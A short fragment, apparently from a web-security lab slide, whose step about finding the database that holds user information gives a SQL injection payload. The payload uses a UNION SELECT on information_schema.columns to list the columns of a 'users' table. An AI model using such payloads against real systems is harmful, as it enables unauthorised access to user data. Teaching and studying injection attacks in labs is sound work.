

b) determie the name of the database containing the user information
%' and 1=0 union select null,null, column_name from information_schema.columns where table_name = 'users' #